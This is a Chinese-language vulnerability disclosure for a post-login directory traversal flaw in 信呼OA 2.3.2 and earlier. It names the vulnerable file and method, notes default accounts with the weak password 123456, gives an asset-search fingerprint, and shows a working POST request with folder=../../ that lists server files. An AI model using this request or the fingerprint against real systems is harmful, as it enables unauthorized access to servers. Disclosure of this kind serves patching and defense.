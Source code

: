 # 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

<a-checkbox checked>信呼OA <= 2.3.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="信呼协同办公系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1637826393127-40e04bac-5443-4dd6-b5d4-b2e8e7e63606.png)

其中默认存在几个用户存在弱口令 123456

![img](../../../.vuepress/public/img/1637826384345-ad90b308-7431-4a96-9baa-6808129967ea.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![img](../../../.vuepress/public/img/1637826483632-dc07740e-e0e5-4b6e-8ce3-e24ad1398db9.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`  

![img](../../../.vuepress/public/img/1637826756244-21762aa4-adbe-453a-86e3-452e767df30e.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```python
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![img](../../../.vuepress/public/img/1637826832637-432df24d-758c-41c0-885e-ba6f79354ce4.png)